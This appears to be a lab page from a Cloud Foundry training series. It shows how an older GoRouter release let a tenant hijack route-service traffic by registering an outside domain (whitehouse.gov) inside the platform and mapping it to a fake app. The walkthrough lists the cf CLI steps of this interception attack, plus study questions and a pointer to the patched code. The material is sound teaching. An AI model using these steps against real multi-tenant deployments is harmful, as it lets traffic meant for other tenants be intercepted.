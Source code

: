 ```yaml
---
layout: single
title: Exploiting Route Services
permalink: /route-services/exploit
sidebar:
  title: "Route Services"
  nav: sidebar-route-services
---
```

## Assumptions
- You have a CF deployed
- You have one
  [proxy](https://github.com/cloudfoundry/cf-networking-release/tree/develop/src/example-apps/proxy)
  app pushed and called appA
- You have one route mapped to appA called APP_A_ROUTE
- You unbound the rate limiter route service from the previous story

## What

In the previous story when you created your own Route Service you ran a command
that looked something like this...

{% include codeHeader.html %}
```bash
cf create-user-provided-service MY_SERVICE -r MY_SERVICE_URL
```

The route MY_SERVICE_URL could be inside or outside of your Cloud Foundry.
However, one takes precedence.  Let's say that MY_SERVICE_URL exists inside
*and* outside of your Cloud Foundry. (Before a recent fix) GoRouter would
"hairpin" and always default to the MY_SERVICE_URL that exists *inside* the
Cloud Foundry.

Let's exploit this.

## How

😇 **Pretend that you are an innocent dev**

1. You need to deploy to an older version of routing-release from before this
   attack vector was fixed. Deploy CF with [routing-release
   0.186.0](https://bosh.io/releases/github.com/cloudfoundry-incubator/cf-routing-release?version=0.186.0).

1. Create a Route Service that sends all traffic to whitehouse.gov
   {% include codeHeader.html %}
   ```bash
   cf create-user-provided-service realwhitehouse -r https://www.whitehouse.gov/
   ```

1. Bind this new Route Service to your APP_A_ROUTE
   {% include codeHeader.html %}
   ```bash
   cf bind-route-service DOMAIN --hostname HOSTNAME realwhitehouse`
   ```

1. See that when you curl APP_A_ROUTE, you now just get www.whitehouse.gov (I
   don't know why you would want this. But it's an easy way to show this attack
   vector.)

😈 **Pretend that you are a malicious dev**

1. Push an app called fakewhitehouse using `--no-route`

1. Create the domain whitehouse.gov (`cf create-shared-domain --help`)

1. Map the route www.whitehouse.gov to the app fakewhitehouse
   {% include codeHeader.html %}
   ```bash
   cf map-route fakewhitehouse whitehouse.gov --hostname www
   ```

1. In one terminal, watch the logs for the fakewhitehouseapp (`cf logs --help`)

1. In another terminal curl APP_A_ROUTE

## Expected Results
* You should see in the fakewhitehouse app logs that traffic was redirected to
  fakewhitehouse
* You should see by the response, that traffic was never sent to the real
  whitehouse.gov

## ❓ Questions
* What happened?
* Why is this really, really bad?
* How could you exploit this on a multi-tennant deployment?
* What level of permissions do you need to exploit this?

## Extra Credit
Find the code in GoRouter that let this happen. Maybe start your search
[here](https://github.com/cloudfoundry/gorouter/blob/f6879c04bac67c1e467f14b79496b9832869df91/proxy/round_tripper/proxy_round_tripper.go#L126-L196).

## Resources
* [CF docs - Route Services](https://docs.cloudfoundry.org/services/route-services.html)
* [Rate Limiting Route Service](https://github.com/cloudfoundry-samples/ratelimit-service)

